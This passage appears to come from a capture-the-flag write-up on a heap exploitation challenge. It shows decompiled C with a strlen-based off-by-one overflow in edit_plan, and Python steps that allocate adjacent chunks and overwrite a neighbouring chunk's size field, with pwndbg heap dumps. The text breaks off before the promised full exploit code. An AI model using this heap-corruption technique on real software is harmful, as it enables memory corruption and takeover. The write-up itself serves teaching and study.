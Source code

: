 ### Call system

To call the system we will need a couple of steps, first let's remember how we can write out-of-bounds.
```C
unsigned __int64 __fastcall edit_plan(__int64 plans)
{
  // ...
  size = strlen(*(const char **)(8LL * plan_index + plans));
  read(0, *(void **)(8LL * plan_index + plans), size);
  return __readfsqword(0x28u) ^ canary;
}
```
If we just fill up the buffer we can write out of bounds for a bit (until a ``0x00``), for what we need to do we just need 1 byte (which we surely have because ``size`` is always set in a valid chunk).

Let's walk the exploit step by step (full code at the end)

We first create 3 plans of the same lenght and fill them, we are sure they will be adjacent.
```py
create_plan(0x48, b"x"*0x48)
create_plan(0x48, b"y"*0x48)
create_plan(0x48, b"z"*0x48)
```
Let's make sure of it from ``pwndbg``!
```py
0x5ddc07101660	0x0000000000000000	0x0000000000000051	........Q....... # First
0x5ddc07101670	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101680	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101690	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016a0	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016b0	0x7878787878787878	0x0000000000000051	xxxxxxxxQ....... # Second
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x0000000000000051	yyyyyyyyQ....... # Third
0x5ddc07101710	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
```

Now let's overflow into the second chunk from the first and change it's size from ``0x51`` to ``0x80``
```py
edit_plan(0, b"x"*0x48 + p8(0x80))
```
Looking at the heap now: (``pwndbg`` will spam a bit, you can limit it with ``set max-visualize-chunk-size <n>``)
```py
0x5ddc07101660	0x0000000000000000	0x0000000000000051	........Q....... # First
0x5ddc07101670	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101680	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101690	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016a0	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016b0	0x7878787878787878	0x0000000000000080	xxxxxxxx........ # Second (new size!)
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x0000000000000051	yyyyyyyyQ....... # Third
```